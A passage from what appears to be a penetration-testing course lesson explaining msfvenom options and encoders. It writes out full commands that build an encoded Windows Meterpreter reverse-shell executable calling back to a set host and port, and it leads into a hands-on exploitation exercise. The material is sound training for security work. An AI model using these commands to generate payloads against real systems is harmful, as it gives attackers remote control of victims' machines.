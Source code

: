      - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the following image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-a x86`: Designates the architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.
      - `-f exe`: Indicates the file type to create (in this case, `.exe`).
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory).

- Next, refer to the command that we used in the previous lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


In the next activity, you will build your own custom command in an exploitation attack.

### 03. msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 
